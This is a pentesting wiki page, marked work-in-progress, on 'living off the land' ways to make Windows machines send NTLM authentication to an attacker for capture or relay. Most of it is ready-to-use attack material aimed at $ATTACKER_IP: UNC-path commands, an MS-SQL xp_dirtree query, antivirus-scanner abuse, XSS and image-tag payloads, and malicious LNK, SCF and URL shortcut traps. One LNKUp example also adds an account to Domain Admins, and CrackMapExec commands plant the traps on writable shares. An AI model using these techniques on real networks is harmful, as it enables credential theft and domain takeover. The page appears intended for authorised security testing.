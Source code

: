 # 🛠️ Living off the land

{% hint style="danger" %}
**This is a work-in-progress**. It's indicated with the 🛠️ emoji in the page name or in the category name
{% endhint %}

## Theory

> In the physical world, “living off the land” simply means to survive only by the resources that you can harvest from the natural land. There may be multiple reasons for doing this — perhaps you want to get “off the grid,” or maybe you have something or someone to hide from. Or maybe you just like the challenge of being self-sufficient.&#x20;
>
> In the technology world, “living off the land” (LotL) refers to attacker behavior that uses tools or features that already exist in the target environment. ([source](https://logrhythm.com/blog/what-are-living-off-the-land-attacks/))

There are multiple "living off the land" techniques that can be used to force authentications, to capture hashes, or to relay authentications. In order to use those techniques, testers need to have an initial access to "the land", i.e. the tools or features the technique uses.

## Practice

Those techniques will usually generate outgoing traffic on SMB or HTTP, hence requiring the attacker to set up an SMB or HTTP server to [capture](../ntlm/capture.md) or [relay](../ntlm/relay.md) the authentication (e.g. using tools like [Responder](https://github.com/SpiderLabs/Responder) (Python), [Inveigh](https://github.com/Kevin-Robertson/Inveigh) (Powershell), [ntlmrelayx](https://github.com/SecureAuthCorp/impacket/blob/master/examples/ntlmrelayx.py) (Python) or [Inveigh-Relay](https://github.com/Kevin-Robertson/Inveigh) (Powershell)).

### Command execution

On Windows machines, cmdlets like `net` or `dir` can be used to make the machine access a remote resource, hence making it authenticate. This leads to an outgoing traffic using SMB.

```bash
dir \\$ATTACKER_IP\something
net use \\$ATTACKER_IP\something
```

The rpcping command can also be used to trigger an authentication. The perk of this technique is that the auth won't carry a signing negotiation flag, hence allowing for relays&#x20;

### MS-SQL queries execution

On MS-SQL (Microsoft SQL) servers, the EXEC method can be used to access a remote SMB share. This leads to an outgoing traffic using SMB.

```bash
EXEC master.sys.xp_dirtree '\\$ATTACKER_IP\something',1,1
```

### File explorer

On Windows machines, the file explorer can be used to access remote resources like SMB shares by supplying its UNC path (i.e. `\\$ATTACKER_IP\something`) in the research bar. This leads to an outgoing traffic using SMB.

### Internet browser

Internet browsers can access HTTP servers by supplying their URL (i.e. `http://$IP:$PORT/something`) in the research bar. This technique is rarely used as it can pop up a prompt. This leads to an outgoing traffic using HTTP.

### HTML documents / XSS

HTML documents can be crafted (or injected with content when successfully exploiting an HTML injection attack such as an [Cross-Site Scripting](../../../web/attacks-on-inputs/xss-cross-site-scripting.md)) in way that could make browsers authenticate when accessing a remote resource. This leads to an outgoing traffic using SMB.

```markup
<script>
    language='javascript' src="\\$ATTACKER_IP\something\something.js"
</script>
```

```markup
<img src="file://$ATTACKER_IP/something/something.png"/>
```

### Web server file inclusion

{% embed url="https://osandamalith.com/2017/03/24/places-of-interest-in-stealing-netntlm-hashes/" %}

### Windows Defender Remote Scanning

```bash
C:\ProgramData\Microsoft\Windows Defender\platform\4.18.2010.7-0\MpCmdRun.exe -Scan -ScanType 3 -File \\$ATTACKER_IP\file.txt
```

### Trend Micro Remote Scanning

```bash
C:\Program Files (x86)\Trend Micro\OfficeScan Clien\PccNt.exe \\$ATTACKER_IP\s\
```

### Shortcut files (scf, lnk, url)

SMB shares can be trapped with shortcut files that will automatically be handled by Windows' file explorer (e.g. a URL shortcut using an icon file located on a remote SMB share will be parsed by the file explorer that will request the icon file and authenticate if necessary). This leads to an outgoing traffic using SMB.

{% hint style="info" %}
Shortcut file names can be preprended with a `@` symbol to put them on top of the share, to make sure the file explorer has to parse it.
{% endhint %}

{% hint style="success" %}
The [ntlm\_theft](https://github.com/Greenwolf/ntlm\_theft) (Python) tool can be used to generate multiple file types at once (lnk, scf, url, docx, xslx, htm, xml, pdf, ...).

```bash
ntlm_theft.py --generate all --server $ATTACKER_IP --filename "@FILENAME"
```
{% endhint %}

{% tabs %}
{% tab title=".lnk" %}
An LNK shortcut using an icon file located on a remote SMB share will be parsed by the file explorer that will request the icon file and authenticate if necessary.

> Shortcuts with the .lnk extension have a lot of beneficial properties when it comes to stealth; [they are an exception](https://en.wikipedia.org/wiki/Shortcut\_\(computing\)#Microsoft\_Windows) from the Windows setting to show or hide file extensions. Even when “hide known file extensions” is disabled, explorer.exe will only show the name, allowing us to let it end in “.jpeg”. A major downside is that they only allow 1024 characters for the whole command they execute. ([source](https://hatching.io/blog/lnk-hta-polyglot/))

[LNKUp](https://github.com/Plazmaz/LNKUp) (Python) is a great tool to generate malicious LNK shortcuts. They can be set with a remote icon file to generate outgoing SMB traffic and authentications but can also be set to execute commands when opened (i.e. double-clicked).

```bash
# Simple SMB trap with remote icon file
LNKUp.py --host $ATTACKER_IP --type ntlm --output '@CONFIDENTIAL-ACCOUNTS.txt.lnk'

# SMB trap + command execution
LNKUp.py --host $ATTACKER_IP --type ntlm --output '@CONFIDENTIAL-ACCOUNTS.txt.lnk' --execute "net group 'Domain Admins' Pentester01 /domain /add"
```

{% hint style="info" %}
**Advanced traps**

* LNK files can be mixed with some VBA: [Pwned by Shortcut](https://medium.com/secjuice/pwned-by-a-shortcut-b21473970944)
* LNK files can be mixed with some HTA: [LNK HTA Polyglot](https://hatching.io/blog/lnk-hta-polyglot/)
{% endhint %}

[CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec) (Python) can be used to automatically push LNK files to a writeable share.

```bash
# Creation & upload
cme smb "target" -d "domain" -u "user" -p "password" -M slinky -O NAME="SHARE" SERVER="ATTACKER_IP"

# Cleanup
cme smb "target" -d "domain" -u "user" -p "password" -M slinky -O NAME="SHARE" SERVER="ATTACKER_IP" CLEANUP=True
```
{% endtab %}

{% tab title=".scf" %}
An SCF shortcut using an icon file located on a remote SMB share will be parsed by the file explorer that will request the icon file and authenticate if necessary.

{% code title="@CONFIDENTIAL-ACCOUNTS.scf" %}
```bash
[Shell]
Command=2
IconFile=\\$ATTACKER_IP\something\something.ico
[Taskbar]
Command=ToggleDesktop
```
{% endcode %}
{% endtab %}

{% tab title=".url" %}
A URL shortcut using an icon file located on a remote SMB share will be parsed by the file explorer that will request the icon file and authenticate if necessary.

{% code title="@CONFIDENTIAL-ACCOUNTS.url" %}
```bash
[InternetShortcut]
URL=https://www.thehacker.recipes/
IconIndex=0
IconFile=\\$ATTACKER_IP\something\something.ico
```
{% endcode %}
{% endtab %}
{% endtabs %}

### PDF documents

[https://github.com/deepzec/Bad-Pdf](https://github.com/deepzec/Bad-Pdf)

[https://github.com/3gstudent/Worse-PDF](https://github.com/3gstudent/Worse-PDF)

### RTF documents

### MS Word documents

## Resources

{% embed url="https://hatching.io/blog/lnk-hta-polyglot/" %}

{% embed url="https://logrhythm.com/blog/what-are-living-off-the-land-attacks/" %}

{% embed url="https://osandamalith.com/2017/03/24/places-of-interest-in-stealing-netntlm-hashes/" %}

{% embed url="https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/" %}

[https://github.com/Gl3bGl4z/All\_NTLM\_leak](https://github.com/Gl3bGl4z/All\_NTLM\_leak)

[https://mgp25.com/research/infosec/Leaking-NTLM-hashes/](https://mgp25.com/research/infosec/Leaking-NTLM-hashes/)

[https://www.securify.nl/blog/living-off-the-land-stealing-netntlm-hashes#office](https://www.securify.nl/blog/living-off-the-land-stealing-netntlm-hashes#office)

[https://www.ired.team/offensive-security/initial-access](https://www.ired.team/offensive-security/initial-access)

[https://github.com/mdsecactivebreach/Farmer](https://github.com/mdsecactivebreach/Farmer)

